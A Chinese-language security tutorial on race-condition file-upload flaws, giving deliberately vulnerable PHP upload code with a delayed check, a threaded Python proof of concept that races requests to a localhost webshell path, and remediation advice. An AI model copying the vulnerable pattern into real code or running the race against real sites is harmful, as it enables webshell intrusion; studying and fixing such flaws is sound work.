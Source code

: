 ### 条件竞争 ###

<b>0x00介绍</b>
一些网站上传文件的逻辑是先允许上传任意文件，然后检查上传的文件是否包含webshell脚本，如果包含则删除该文件。这里存在的问题是文件上传成功后和删除文件之间存在一个短的时间差(因为要执行检查文件和删除文件的操作)，攻击者就可以利用这个时间差完成竞争条件的上传漏洞攻击

<b>0x01漏洞一般出现的位置</b>
SRC好像都没见过，一般出现在CTF题吧
就是允许任意文件上传，但是会判断是否为webshell。更简洁的来说就是：
```
先将文件上传到指定目录然后在判断是否为webshell，是的话在删除。攻击者可以利用这段时间差来进行生成另一个shell。
一般存在条件竞争的上传文件后，在短暂时间内发现可以访问。可是后面就被删了，这就有：条件竞争
```

<b>0x02实验</b>
存在漏洞的代码
```php
<html>
<head>
    <title>条件竞争</title>
</head>
<body>
<form action="demo.php" method="post" enctype="multipart/form-data">
    <label for="file">文件名</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" na="submit" value="上传">
</body>
</html>

<?php
header("Content-Type: text/html;charset=utf-8");
if(isset($_FILES['file'])) {
    if ($_FILES['file']['error'] > 0) {
        echo "文件上传错误" . $_FILES["file"]["error"] . "<br>";
    } else {
        echo "上传的文件名:" . $_FILES['file']['name'] . "<br>";
        echo "文件类型:" . $_FILES['file']['type'] . "<br>";
        echo "文件大小:" . $_FILES['file']['size'] . "<br>";
        echo "文件临时存储位置".$_FILES['file']['tmp_name']."<br>";
        move_uploaded_file($_FILES['file']['tmp_name'], 'upload/' . $_FILES['file']['name']);
        $demo=explode(".",$_FILES['file']['name']);
        $hz=end($demo);
        sleep(10);
        if ($hz!='jpg'){
            unlink('upload/'.$_FILES['file']['name']);
            echo "发现webshell，已删除";
        }
    }
}
?>
```

poc
```python
import requests
import threading

s = 0
def demo(url):
    global s
    headers={'user-agent':'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36'}
    rqt=requests.get(url=url,headers=headers)
    s+=1
    print('[+] 已请求:{}次'.format(s))
    rqt=requests.get(url='http://127.0.0.1/jinz/upload/xxx.php',headers=headers)
    if rqt.status_code==200:
        print('[+] shell上传成功')

if __name__ == '__main__':
    urls='http://127.0.0.1/jinz/upload/xx.php'
    for i in range(1,30):
        t=threading.Thread(target=demo,args=(urls,))
        t.start()
  ```
  
  ![](https://s2.ax1x.com/2019/03/24/AYQxqH.md.png)
  
  ![AYlSZd.md.png](https://s2.ax1x.com/2019/03/24/AYlSZd.md.png)
  
  ![AYlpdA.md.png](https://s2.ax1x.com/2019/03/24/AYlpdA.md.png)
  
  <b>0x003修复</b>
  针对此漏洞修复是，要判断是否为允许后缀在上传的过程判断，不要上传完毕才判断
  对上传后的文件进行重命名